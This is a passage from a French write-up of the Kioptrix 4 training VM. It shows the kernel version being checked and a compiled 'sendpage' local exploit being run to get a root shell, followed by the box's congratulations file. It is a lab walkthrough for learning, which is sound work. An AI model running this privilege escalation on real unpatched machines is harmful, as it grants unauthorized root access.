 Ok... On n'a même plus besoin de passer root ^\_^ Mais quelle époque on vit !  

The Crusher
-----------

Pour le fun on prend l'identité du système :  

```plain
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 8.04.3 LTS
Release:        8.04
Codename:       hardy

Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

Ce qui nous mène à l'exploit *sendpage*, sans doute le chemin qu'il aurait fallut prendre si j'avais persisté sur l'inclusion :  

```plain
$ ./sendpage
# id
uid=0(root) gid=0(root) groups=1001(john)
# cd /root
# ls -al
total 44
drwxr-xr-x  4 root       root       4096 Feb  6  2012 .
drwxr-xr-x 21 root       root       4096 Feb  6  2012 ..
-rw-------  1 root       root         59 Feb  6  2012 .bash_history
-rw-r--r--  1 root       root       2227 Oct 20  2007 .bashrc
-rw-r--r--  1 root       root          1 Feb  5  2012 .lhistory
-rw-------  1 root       root          1 Feb  5  2012 .mysql_history
-rw-------  1 root       root          5 Feb  6  2012 .nano_history
-rw-r--r--  1 root       root        141 Oct 20  2007 .profile
drwx------  2 root       root       4096 Feb  6  2012 .ssh
-rw-r--r--  1 root       root        625 Feb  6  2012 congrats.txt
drwxr-xr-x  8 loneferret loneferret 4096 Feb  4  2012 lshell-0.9.12
# cat congrats.txt
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```


*Published February 22 2018 at 18:03*
